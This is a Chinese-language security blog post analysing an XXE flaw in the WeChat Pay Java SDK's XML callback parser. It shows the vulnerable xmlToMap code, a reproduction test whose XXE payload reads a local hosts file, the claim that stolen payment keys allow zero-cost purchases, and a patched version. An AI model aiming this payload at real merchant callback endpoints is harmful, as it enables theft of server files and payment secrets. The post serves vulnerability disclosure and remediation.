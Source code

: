 ```yaml
---
layout: post
title: "微信支付SDK XXE漏洞分析"
date: 2018-07-04
description: "微信支付SDK XXE漏洞分析"
tag: 应用安全
---
```


------

## 漏洞描述
微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何文件，一般支付服务器均为核心服务器，出现XXE导致任意文件。另外，一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）。

## 漏洞来源
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)  
[https://xz.aliyun.com/t/2427](https://xz.aliyun.com/t/2427)

## 漏洞分析
[微信支付Java SDK 下载](https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view?usp=sharing)
### 漏洞关键代码
* WXPayUtil.java
```java
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```

微信SDK的xmlToMap方法接受并处理XML数据，但是默认支持外部实体解析，所以只要可以控制strXML就能导致XXE漏洞。

### 微信SDK支付逻辑
根据README可以看到，微信SDK的支付逻辑如下：
1. 首先统一下单

```java
import com.github.wxpay.sdk.WXPay;
import java.util.HashMap;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> data = new HashMap<String, String>();
        data.put("body", "腾讯充值中心-QQ会员充值");
        data.put("out_trade_no", "2016090910595900000012");
        data.put("device_info", "");
        data.put("fee_type", "CNY");
        data.put("total_fee", "1");
        data.put("spbill_create_ip", "123.12.12.123");
        data.put("notify_url", "http://www.example.com/wxpay/notify");
        data.put("trade_type", "NATIVE");  // 此处指定为扫码支付
        data.put("product_id", "12");

        try {
            Map<String, String> resp = wxpay.unifiedOrder(data);
            System.out.println(resp);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

其中notify_url是接入方自己构建的web接口，用于异步接收微信支付结果通知的回调地址。
2. 处理微信回调
```java
import com.github.wxpay.sdk.WXPay;
import com.github.wxpay.sdk.WXPayUtil;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        String notifyData = "...."; // 支付结果通知的xml格式数据

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);  // 转换成map

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
            // 签名正确
            // 进行处理。
            // 注意特殊情况：订单已经退款，但收到了支付结果成功的通知，不应把商户侧订单状态从退款改成支付成功
        }
        else {
            // 签名错误，如果数据里没有sign字段，也认为是签名错误
        }
    }

}
```
nodifyData实际是微信给接入方回调地址notify_url返回的xml数据。接入方使用xmlToMap处理nodifydata。攻击者只需要知道nodify_url，就可以构造XXE Payload进行攻击。

### 漏洞复现
简单修改SDK中示例代码的xmlStr为XXE Payload，查看可否实现XXE攻击。
* TestWXPay.java

```java
    /**
     * 小测试
     */
    public void test001() {
        String xmlStr="<?xml version=\"1.0\" encoding=\"utf-8\"?>\n" +
                "<!DOCTYPE root [\n" +
                "\t<!ENTITY xxe SYSTEM \"file:///C:\\Windows\\System32\\drivers\\etc\\hosts\">]>\n" +
                "<root>\n" +
                "\t<xxe>&xxe;</xxe>\n" +
                "</root>";
        try {
            System.out.println(xmlStr);
            System.out.println("+++++++++++++++++");
//            System.out.println(WXPayUtil.isSignatureValid(xmlStr, config.getKey())); //此处可注释测试，接入方处理微信回调时也是先调用xmlToMap再校验签名的
            Map<String, String> hm = WXPayUtil.xmlToMap(xmlStr);
            System.out.println("+++++++++++++++++");
            System.out.println(hm);
//            System.out.println(hm.get("attach").length()); //此处可注释

        } catch (Exception e) {
            e.printStackTrace();
        }

    }
```
* 执行结果  
![](/images/posts/app_sec/WXPay_result1_2018-07-04_20-53-14.png)  
已经成功读取hosts文件。证明只要接入方使用了此版本SDK并且攻击者知道回调地址，就可以成功实现XXE攻击。

## 修复建议
`禁用外部实体解析`  
目前微信支付Java SDK已经修复了代码，可以在[这里](https://drive.google.com/file/d/1cHtElmTLfDRov1poIAAD70jwa8NGh78P/view?usp=sharing)下载修复后代码。
* WXPayUtil.java  
```java
 public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
			documentBuilderFactory.setExpandEntityReferences(false); //禁用外部实体解析
			documentBuilderFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true); //开启XML安全处理
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```
* 修复后执行结果  
![](/images/posts/app_sec/WXPay_result2_2018-07-04_20-53-14.png)  